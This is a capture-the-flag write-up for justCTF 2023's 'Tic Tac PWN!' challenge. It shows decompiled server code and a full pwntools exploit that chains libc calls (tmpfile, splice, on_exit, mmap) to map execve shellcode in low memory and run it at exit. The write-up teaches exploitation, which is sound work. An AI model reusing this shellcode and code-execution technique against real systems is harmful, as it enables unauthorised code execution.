

## Tic Tac PWN!

was a pwn challenge from [justCTF 2023](https://ctftime.org/event/1930)

if was pretty tricky and did not have much solves.

Program was a sort of **Tic Tac Toe** game, implemented as a dynamic library `rpc_tictactoe.so` that can be called

by a "sort of" rpc server.

The challenge's creator gave us some examples on how to call the `rpc_tictactoe.so` functions:

```sh
[debug] RPC ready
tictactoe:new_game 0 0 0 0 0 0
tictactoe:computer_turn 0 0 0 0 0 0
tictactoe:player_turn 1 1 0 0 0 0
tictactoe:computer_turn 0 0 0 0 0 0
tictactoe:player_turn 2 1 0 0 0 0
tictactoe:computer_turn 0 0 0 0 0 0
tictactoe:player_turn 2 2 0 0 0 0
tictactoe:computer_turn 0 0 0 0 0 0
tictactoe:player_turn 0 0 0 0 0 0
tictactoe:computer_turn 0 0 0 0 0 0
tictactoe:print 0 0 0 0 0 0
[debug] finished rpc_tictactoe.so:new_game(0, 0, 0, 0, 0, 0) RPC
[debug] finished rpc_tictactoe.so:computer_turn(0, 0, 0, 0, 0, 0) RPC
[debug] finished rpc_tictactoe.so:player_turn(0x1, 0x1, 0, 0, 0, 0) RPC
6
[debug] finished rpc_tictactoe.so:computer_turn(0, 0, 0, 0, 0, 0) RPC
[debug] finished rpc_tictactoe.so:player_turn(0x2, 0x1, 0, 0, 0, 0) RPC
3
[debug] finished rpc_tictactoe.so:computer_turn(0, 0, 0, 0, 0, 0) RPC
[debug] finished rpc_tictactoe.so:player_turn(0x2, 0x2, 0, 0, 0, 0) RPC
3
[debug] finished rpc_tictactoe.so:computer_turn(0, 0, 0, 0, 0, 0) RPC
[debug] finished rpc_tictactoe.so:player_turn(0, 0, 0, 0, 0, 0) RPC
[debug] finished rpc_tictactoe.so:computer_turn(0, 0, 0, 0, 0, 0) RPC
---
O  
XOO
XXO
---
[debug] finished rpc_tictactoe.so:print(0, 0, 0, 0, 0, 0) RPC

```

you can indicates the function name and its arguments to the rpc server, that will pass these commands to the dynamic library.

Let's have a look to the reverse of the main function:

### 1 - Main function of `rpc_server`

```c
int main(int argc, const char **argv, const char **envp)
{
  uint32_t arg1, arg2, arg3, arg4, arg5, arg6;
  int i; // [rsp+24h] [rbp-FCh]
  void *handle; // [rsp+28h] [rbp-F8h]
  char *colon_ptr; // [rsp+30h] [rbp-F0h]
  void *function_addr; // [rsp+38h] [rbp-E8h]
  char fname[80]; // [rsp+40h] [rbp-E0h] BYREF
  char file[136]; // [rsp+90h] [rbp-90h] BYREF
  uint64_t canary; // [rsp+118h] [rbp-8h]

  canary = __readfsqword(0x28u);
  handle = 0LL;
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  puts("[debug] RPC ready");
  while ( (unsigned __int8)security_check() == 1 )// execute commands as long as security_check pass (no lower mem mappings found)
  {
    __isoc99_scanf(" %64[^ ]", fname);
    __isoc99_scanf("%u %u %u %u %u %u", &arg1, &arg2, &arg3, &arg4, &arg5, &arg6);// read 6 unsigned ints to args
    for ( i = 0; fname[i]; ++i )
    {
      if ( (fname[i] <= '/' || fname[i] > 57) && (fname[i] <= 96 || fname[i] > 122) && fname[i] != 95 && fname[i] != 58 )
      {
        fwrite("rpc service name or symbol name contains illegal characters\n", 1uLL, 0x3CuLL, stderr);
        exit(1);
      }
    }
    colon_ptr = strchr(fname, ':');             // find ":" separator
    if ( !colon_ptr )
    {
      fwrite("missing rpc service name\n", 1uLL, 0x19uLL, stderr);
      exit(1);
    }
    *colon_ptr = 0;                             // set the separator to zero
    sprintf(file, "rpc_%s.so", fname);
    handle = dlopen(file, 1);
    function_addr = dlsym(handle, colon_ptr + 1);
    if ( colon_ptr[1] == '_' || !v12 )
    {
      fprintf(stderr, "symbol not found: %s\n", colon_ptr + 1);
      exit(1);
    }
    ((void (__fastcall *)(_QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD))function_addr)(arg1,arg2,arg3,arg4,arg5,arg6,0,0,0,0,0,0,0,0,0,0);
    printf(
      "[debug] finished %s:%s(%#x, %#x, %#x, %#x, %#x, %#x) RPC\n",file,colon_ptr+1,arg1,arg2,arg3,arg4,arg5,arg6);
  }
  fwrite("security error!\n", 1uLL, 0x10uLL, stderr);
  exit(1);
}
```

So the main loop basically takes commands as input in the format:

`library_name:function arg1 arg2 arg3 arg4 arg5 arg6`

in a while loop that run as long as the function `security_check()` returns 1

the dynamic library is opened with `dlopen` and the function address is retrieved with `dlsym`

we can pass up to 6 arguments that are unsigned int of 32 bits size.

The value returned by function, is not returned to us.

Let's have a look to the `security_check()` function:

```c
__int64 security_check()
{
  uint64_t val1, val2;
    FILE *stream; // [rsp+18h] [rbp-418h]
  char s[1032]; // [rsp+20h] [rbp-410h] BYREF
  uint64_t canary; // [rsp+428h] [rbp-8h]

  canary = __readfsqword(0x28u);
  stream = fopen("/proc/self/maps", "rb");
  if ( !stream )
    return 0LL;
  while ( fgets(s, 1024, stream) )
  {
    __isoc99_sscanf(s, "%llx-%llx", &val1, &val2);
    if ( val1 <= 0xFFFFFFFF || val2 <= 0xFFFFFFFF )// check if there is a mapping in the low 32bit area (< 0x100000000)
    {
      fclose(stream);
      return 0LL;
    }
  }
  fclose(stream);
  return 1LL;
}
```

We can see that the `security_check()` function is here to forbid us to map a memory zone in the low 32 bits address space.

Which is logic as we can only pass 32 bits unsigned int as arguments to functions (and eventually to `mmap`)

### 2 - So What's the vulnerability ?

We checked the **Tic Tac Toe** game functions, and did not see anything exploitable in it...

but we quickly found that, as the dynamic library `rpc_tictactoe.so` import `libc`,  we can also called  `libc` functions directly.

for example:

```sh
nc tictac.nc.jctf.pro 1337
[debug] RPC ready
tictactoe:putchar 65 0 0 0 0 0 
A[debug] finished rpc_tictactoe.so:putchar(0x41, 0, 0, 0, 0, 0) RPC
```

you can see that libc `putchar()` function has been executed, as we passed `65` as `arg1` which is the ascii code of "A", and a "A" if effectively printed..

so we can ignore the **Tic Tac Toe** game, and try to dump the flag directly by calling `libc` functions..

The main difficulty it that we can only pass 32 bits values to functions, and can not `mmap` memory in the low 32 bits addressable memory zone. The `rpc_server` binary is compiled with PIE, so it's addresses are unknown, and anyway not reachable by a 32 bits pointer..

Teammate **sampriti** has the idea that we could have code execution at exit by registering an `exit handler` with `on_exit()` function in the low memory zone, and then `mmap` a shellcode to the low memory zone, and when the `security_check()`will catch us at the next loop.. it will exits...and executes our shellcode so...

But a way of opening a file, and putting data into it was missing..

I finally find the way to do it by using `libc`function `tmpfile(void)`:

```sh
NAME
       tmpfile - create a temporary file

SYNOPSIS
       #include <stdio.h>

       FILE *tmpfile(void);

DESCRIPTION
       The tmpfile() function opens a unique temporary file in binary read/write (w+b) mode.  The file will be automatically deleted when it is closed or the program terminates.

RETURN VALUE
       The tmpfile() function returns a stream descriptor, or NULL if a unique filename cannot be generated or the unique file cannot be opened.  In the latter case, errno is set to indicate the error.
```

so it takes nothing in input (which is nice) , and it returns a `FILE *` stream descriptor, that will be linked to a file descriptor too, you can check it by watching in `/proc/pid/fd` after calling `tmpfile`.

That file descriptor number will be 3, as the 0,1,2 file descriptors are already allocated for `stdin`, `stdout` and `stderr`

next step was how to write in it ?

for that I used `splice` function, that copies data from one file descriptor to another. and particularly that works when one of them is a pipe (like `stdin` for us), as you can see in the man page:

```sh
NAME
       splice - splice data to/from a pipe

SYNOPSIS
       #define _GNU_SOURCE         /* See feature_test_macros(7) */
       #include <fcntl.h>

       ssize_t splice(int fd_in, loff_t *off_in, int fd_out,
                      loff_t *off_out, size_t len, unsigned int flags);

DESCRIPTION
       splice()  moves data between two file descriptors without copying between kernel address space and user address space.  It transfers up to len bytes of data from the file descriptor fd_in to the file descriptor fd_out, where one of the file descriptors must
       refer to a pipe.

       The following semantics apply for fd_in and off_in:

       *  If fd_in refers to a pipe, then off_in must be NULL.
```

so we will read data from `stdin`to our temporary file with `splice`.

Now we have all we need..

### 3 - The exploit

```python
from pwn import *
context.update(arch="amd64", os="linux")
context.log_level = 'info'

if args.REMOTE:
  p = remote('tictac.nc.jctf.pro', 1337)
else:
  p = remote('127.0.0.1', 1337)

# simple shellcode that execute the readflag binary (that dump the flag)
payload = asm('''
loop:
   mov eax,59
   lea rdi, text[rip]
   xor esi,esi
   xor edx,edx
   syscall
text:
   .ascii "/jailed/readflag"
''')


# we create a temporary file (filedescriptor will be 3)
p.sendlineafter('ready\n', 'tictactoe:tmpfile 0 0 0 0 0 0')
#  read data from fd 0 (stdin) to fd 3 (our temp file)
p.sendlineafter('RPC\n', 'tictactoe:splice 0 0 3 0 '+str(len(payload))+' 0')
# send data to be written in our temp file
p.send(payload)
# set execute shellcode at 0x10000 on exit
p.sendlineafter('RPC\n', 'tictactoe:on_exit 65536 1 0 0 0 0')
# mmap our temporary file to 0x10000 as rwx, that will exit after the mapping is executed as security_check will detect it
# and while exiting, it will execute our shellcode registered with on_exit(addr) function
p.sendlineafter('RPC\n', 'tictactoe:mmap 65536 4096 7 17 3 0')
p.interactive()
```

well.... seeing is believing...



and that's all!

**nobodyisnobody still pwning..**